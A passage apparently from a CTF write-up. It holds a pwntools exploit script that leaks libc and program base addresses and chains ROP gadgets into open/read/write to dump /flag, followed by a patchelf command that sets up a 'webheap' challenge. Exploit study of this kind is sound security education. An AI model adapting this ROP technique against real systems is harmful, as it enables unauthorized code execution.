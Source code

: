 ```python
# pause()
sh.send(b'\x00')
sh.recvline()

proc_base = sh.recv(1)
proc_base += sh.recv(5)
proc_base = u64(proc_base.ljust(8, b'\x00')) - 0x1955
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x24083

pop_rax_ret_addr = libc_base + 0x36174
pop_rdi_ret_addr = libc_base + 0x23b6a
pop_rsi_ret_addr = libc_base + 0x02601f
pop_rdx_ret_addr = libc_base + 0x142c92
bss_addr = proc_base + elf.bss() + 0x100

print("bss_addr >>>", hex(bss_addr))
print("libc_base >>>", hex(libc_base))
print("proc_base >>>", hex(proc_base))

payload = p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_ret_addr) + p64(bss_addr) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['read'])
payload += p64(pop_rdi_ret_addr) + p64(0) + p64(libc_base + libc.sym['close'])
payload += p64(pop_rdi_ret_addr) + p64(bss_addr) + p64(pop_rsi_ret_addr) + p64(0) + p64(libc_base + libc.sym['open']) 
payload += p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_ret_addr) + p64(bss_addr + 0x100) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['read'])
payload += p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_ret_addr) + p64(bss_addr + 0x100) + p64(pop_rdx_ret_addr) + p64(0x100) + p64(libc_base + libc.sym['write'])

# gdb.attach(sh, 'b *' + hex(pop_rdi_ret_addr))
# pause()
# print(hex(len(payload1)))

sh.send(payload)
sh.sendline(b"/flag\x00")
sh.interactive()

```



## webheap

```bash
patchelf --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ld-2.27.so --replace-needed libm.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libm.so.6 --replace-needed libc.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6 --replace-needed libgcc_s.so.1 /mnt/f/Downloads/libgcc_s.so.1 --replace-needed libstdc++.so.6 /mnt/f/Downloads/libstdc++.so.6.0.25 webheap
```

